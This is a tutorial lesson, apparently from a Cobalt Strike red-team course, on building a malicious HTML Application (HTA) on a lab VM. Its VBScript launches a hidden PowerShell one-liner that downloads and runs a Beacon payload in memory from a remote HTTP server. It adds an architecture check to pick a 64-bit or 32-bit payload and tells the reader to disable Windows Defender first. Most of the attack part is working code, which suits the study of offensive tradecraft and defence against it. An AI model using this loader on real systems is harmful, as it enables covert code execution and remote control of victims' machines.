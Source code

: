 An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript). The HTML is used to generate the user interface and the scripting language for the program logic. An HTA executes without the constraints of the browser's security model, so it executes as a "fully trusted" application.

An HTA is executed using `mshta.exe`, which is typically installed along with IE. In fact, `mshta` is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.

To create an HTA, open **Visual Studio Code** on the **attacker-windows** VM and create a new empty file. Save the following content to **C:\\Payloads\\demo.hta**.

```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>
</html>
```

Now browse to this file in explorer and double-click it to run (make sure to select Microsoft HTML Application host if prompted). All being well, a window will appear with the rendered content.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/d4b77603-3c5f-439e-ac40-815f703859b6)


Being HTML you can put anything that you want the user to see - so channel your inner creativity.

Let's add some **VBScript** that will execute something on the user's machine. Launching **calc** is the most 1337 thing you can do, so let's try that.
```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```

The `wscript.Shell` object provides access to the Windows shell methods and the `run` method simply allows us to run an application from disk. Run the HTA again and the calculator should appear on the desktop.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/e6b80123-871d-4e5f-8279-b479da535049)


Next, we need to replace calc with a Beacon payload. Let's use a PowerShell payload.

In Cobalt Strike, go to **Attacks > Web Drive-by > Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener. The URI path can be anything, but I will keep it as **/a**.

This will generate a PowerShell payload and host it on the Team Server so that it can be downloaded over HTTP and executed in-memory. Cobalt Strike will also generate the PowerShell one-liner that will do just that.

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/37bb90be-2690-4557-ac7a-f7be0a82d779)


![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/0557de74-9c1b-4f4f-9668-5857f5fb78c3)


Copy/paste this line into the HTA in place of calc and make sure to add another set of double quotation marks around the IEX command. It should look like this:

```shell
shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"""
```

Before you execute the HTA, go to **View > Web Log** in Cobalt Strike. This allows us to see incoming HTTP requests. Now run the HTA.

```
You will need to disable Windows Defender on the attacker-windows VM first.
```

You should see an entry appear in the weblog for `/a` (or whatever URI you used), but no Beacon will appear. Why is that?  If we use Process Hacker to inspect the running `mshta` process, we can see it's actually a 32-bit application (there is a 64-bit version, but the 32-bit version is the one that seems to run by default).

![image](https://github.com/LeThanhkosogian/Learn-Cobalt-Strike/assets/97555997/afd92086-4600-4839-ae12-3fe94cd262d2)


This means that mshta is also launching the 32-bit version of PowerShell, but the payload we generated was 64-bit.  We can "fix" this by either changing our payload to be 32-bit (not desirable), or to force mshta to use the 64-bit version of PowerShell.

To do the latter, instead of simply putting `powershell.exe` into the HTA, we provide the full path:
```shell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

`sysnative` is a sort of alias for `System32` that only exists for 32-bit applications running on a 64-bit OS. Otherwise if you try to access `C:\Windows\System32` in a 32-bit application, it will actually redirect to `C:\Windows\SysWOW64`.  I recommend checking out [this article](https://www.samlogic.net/articles/32-64-bit-windows-folder-x86-syswow64.htm) to understand SysWOW64 better.

A more robust solution could be to perform an architecture check in the HTA or an intermediately PowerShell script and invoke the correct payload for the target.

```vb.net
Function Pwn()
  Set shell = CreateObject("wscript.Shell")

  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
  Else
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/b'))"""
  End If

End Function
```

> Fix the HTA using the details above to get a 64-bit Beacon running on **attacker-windows**.

